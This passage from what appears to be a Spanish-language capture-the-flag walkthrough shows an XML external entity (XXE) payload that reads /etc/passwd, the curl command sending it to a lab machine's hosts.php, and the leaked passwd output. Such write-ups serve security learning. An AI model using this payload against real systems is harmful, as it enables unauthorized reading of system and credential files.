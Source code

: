 Lo ejecutamos y vemos que no obtenemos algún resultado. Esto puede ser porque al servidor no le gusta el wrapper `expect`, así que vamos a utilizar otro, como por ejemplo `file`:

```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
```

Lo ejecutamos y podemos ser el archivo `/etc/passwd` de la máquina víctima; por lo que podemos visualizar contenido del sistema.

```bash
❯ curl -d @test.txt http://10.10.10.78/hosts.php
                                                                
There are 4294967294 possible hosts for root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin       
sys:x:3:3:sys:/dev:/usr/sbin/nologin             
sync:x:4:65534:sync:/bin:/bin/sync                 
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin     
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin        
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin                  
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin                                                                              
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin                
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin                                                                             
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin                                                                             
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin                                                                    
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin                                                                                 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false                                                                                        
_apt:x:105:65534::/nonexistent:/bin/false                                                                                        
messagebus:x:106:110::/var/run/dbus:/bin/false         
uuidd:x:107:111::/run/uuidd:/bin/false                                                                                           
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false                  
whoopsie:x:109:117::/nonexistent:/bin/false                 
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false 
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false  
```